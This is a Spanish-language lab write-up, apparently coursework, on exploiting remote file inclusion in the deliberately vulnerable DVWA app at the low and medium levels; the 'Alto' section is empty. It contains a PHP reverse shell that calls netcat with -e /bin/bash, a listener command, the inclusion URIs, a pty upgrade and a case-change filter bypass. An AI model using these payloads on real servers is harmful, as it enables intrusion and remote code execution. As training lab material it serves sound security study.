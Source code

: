 # RFI

Remote file inclusion (RFI) es una vulnerabilidad que permite a un atacante incluir archivos de un servidor remoto. Esto puede ser utilizado para incluir archivos PHP, que luego pueden ser utilizados para ejecutar código arbitrario en el servidor.

## Bajo

Para comenzar, podemos intentar lanzar un shell remoto escrito en PHP `php-reverse-shell.php` que se encuentra en nuestro servidor local y que previamente hemos creado con el siguiente contenido:

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

A continuación, ponemos en escucha el puerto 4000 en nuestro servidor local para recibir la conexión del servidor remoto:

```bash
nc -lvnp 4000
```

Una vez puesto en escucha, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Una vez incluido el archivo, el servidor remoto intentará conectarse al servidor local en el puerto 4000, y si todo ha ido bien, obtendremos una shell remota.
Una vez hayamos obtenida la shell remota, podemos intentar mejorar la TTY para poder interactuar con ella de una manera más cómoda, para ello ejecutamos el siguiente comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Una vez mejorada la TTY, podemos intentar leer el archivo `fi.php` utilizando cat:

```bash
cat DVWA/hackable/flags/fi.php
```

![rfi](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/rfi.png)

## Medio

Al igual que en el nivel bajo, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Si probamos a ejecutarlo, comprobaremos que no funciona debido a que el servidor habra reemplazado el `http://` por una cadena vacía y por tanto no podrá conectarse al servidor local. Para poder solucionar esto, podemos probar cambiando `http` -> `Http` | `httphttp` | `HTTP` | etc.

```
http://localhost/DVWA/vulnerabilities/fi/?page=Http://localhost/php-reverse-shell.php
```

![rfi-2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/rfi-2.png)

Como se puede ver, se ha vuelto a visualizar el archivo `fi.php` de donde extraemos todas las citas.

## Alto
